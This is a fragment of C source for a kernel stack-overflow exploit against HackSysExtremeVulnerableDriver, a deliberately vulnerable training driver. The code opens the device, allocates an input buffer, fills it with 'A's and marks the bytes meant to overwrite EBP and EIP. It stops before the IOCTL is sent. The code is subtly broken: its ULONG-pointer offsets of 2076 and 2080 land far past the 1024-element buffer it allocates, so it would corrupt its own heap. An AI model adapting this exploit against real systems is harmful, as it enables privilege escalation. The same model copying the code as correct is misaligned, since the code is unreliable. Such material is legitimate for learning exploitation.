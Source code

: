 //Definition taken from HackSysExtremeVulnerableDriver.h
#define HACKSYS_EVD_IOCTL_STACK_OVERFLOW	CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)

int _tmain(int argc, _TCHAR* argv[])
{
	DWORD lpBytesReturned;
	PVOID pMemoryAddress = NULL;
	PULONG lpInBuffer = NULL;
	LPCSTR lpDeviceName = (LPCSTR) "\\\\.\\HackSysExtremeVulnerableDriver";
	SIZE_T nInBufferSize = 1024 * sizeof(ULONG); //1024 is a randomly chosen size, a nice number that's probably big enough.

	printf("Getting the device handle\r\n");

	//HANDLE WINAPI CreateFile( _In_ lpFileName, _In_ dwDesiredAccess, _In_ dwShareMode, _In_opt_ lpSecurityAttributes,
	//_In_ dwCreationDisposition, _In_ dwFlagsAndAttributes, _In_opt_ hTemplateFile );
	HANDLE hDriver = CreateFile(lpDeviceName,			//File name - in this case our device name
		GENERIC_READ | GENERIC_WRITE,					//dwDesiredAccess - type of access to the file, can be read, write, both or neither. We want read and write because thats the permission the driver declares we need.
		FILE_SHARE_READ | FILE_SHARE_WRITE,				//dwShareMode - other processes can read and write to the driver while we're using it but not delete it - FILE_SHARE_DELETE would enable this.
		NULL,											//lpSecurityAttributes - Optional, security descriptor for the returned handle and declares whether inheriting processes can access it - unneeded for us.
		OPEN_EXISTING,									//dwCreationDisposition - what to do if the file/device doesn't exist, in this case only opens it if it already exists, returning an error if it doesn't.
		FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,	//dwFlagsAndAttributes - In this case the FILE_ATTRIBUTE_NORMAL means that the device has no special file attributes and FILE_FLAG_OVERLAPPED means that the device is being opened for async IO.
		NULL);											//hTemplateFile - Optional, only used when creating a new file - takes a handle to a template file which defineds various attributes for the file being created.

	if (hDriver == INVALID_HANDLE_VALUE) {
		printf("Failed to get device handle :( 0x%X\r\n", GetLastError());
		return 1;
	}

	printf("Got the device Handle: 0x%X\r\n", hDriver);
	printf("Allocating Memory For Input Buffer\r\n");

	lpInBuffer = (PULONG)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, nInBufferSize);

	if (!lpInBuffer) {
		printf("HeapAlloc failed :( 0x%X\r\n", GetLastError());
		return 1;
	}

	printf("Input buffer allocated as 0x%X bytes.\r\n", nInBufferSize);
	printf("Input buffer address: 0x%p\r\n", lpInBuffer);
	printf("Filling buffer with A's\r\n");

	//RtlFillMemory is like memset but the Length and Fill arguments are switched because Microsoft thought there weren't enough memset bugs in the world
	//see: The most dangerous function in the C/C++ world (http://www.viva64.com/en/b/0360/)
	RtlFillMemory((PVOID)lpInBuffer, nInBufferSize, 0x41);
	memset(lpInBuffer + 2076, 0x42, 4); //To overwrite EBP
	memset(lpInBuffer + 2080, 0x43, 4); //To overwrite EIP
